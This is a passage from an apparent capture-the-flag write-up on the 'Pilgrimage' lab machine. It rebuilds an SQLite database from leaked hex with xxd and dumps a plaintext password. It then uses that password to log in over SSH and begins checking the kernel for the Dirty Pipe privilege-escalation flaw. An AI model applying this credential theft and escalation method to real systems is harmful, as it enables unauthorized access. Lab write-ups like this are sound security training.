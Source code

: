 ```bash
  Signature: 4c4e6cde6dfedcc48bbde899e372a4e200ce2381e14a6cc9887013771a56254f
  Tainted: False
  User Time: 0.010u
  Elapsed Time: 0m:0.001498s
  Pixels Per Second: 8.1Mi
```

Next, we can copy the file's **hex content** in another file, then use [`xxd`](https://linux.die.net/man/1/xxd) to read it without line number information and without a particular column layout, and finally, write the output to a new `.db` file:

```bash
$ cat pilgrimage | xxd -r -p > pilgrimage.db
```

Now, we can use `sqlite3` to open the database and dump its contents:

```bash
$ sqlite3 pilgrimage.db
SQLite version 3.44.2 2023-11-24 11:41:44
Enter ".help" for usage hints.
sqlite> .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users (username TEXT PRIMARY KEY NOT NULL, password TEXT NOT NULL);
INSERT INTO users VALUES('emily','abigchonkyboi123');
CREATE TABLE images (url TEXT PRIMARY KEY NOT NULL, original TEXT NOT NULL, username TEXT NOT NULL);
COMMIT;
sqlite>
```

And voila! We have `emily`'s credentials: `emily:abigchonkyboi123`. Let's check if we use them to log into the SSH server:

```bash
$ ssh emily@10.10.11.219
<SNIP>
emily@pilgrimage:~$ cat user.txt
881bcf0005970070b17e544e9b225e2e
```

And we are in!

## Privilege escalation

After exploring some directories, we could not find any direct privilege escalation paths, such as binaries we can run with `sudo` or `SUID` files. We can check the kernel version with [`uname`](https://man7.org/linux/man-pages/man1/uname.1.html) and see if there is anything we can do with that:

```bash
emily@pilgrimage:/tmp$ uname -v
#1 SMP Debian 5.10.179-1 (2023-05-12)
```

Upon searching for known vulnerabilities, we find [this](https://www.hackers-arise.com/post/privilege-escalation-the-dirty-pipe-exploit-to-escalate-privileges-on-linux-systems) post which has a tool that checks for [CVE-2022-0847](https://nvd.nist.gov/vuln/detail/cve-2022-0847). Let's try that:
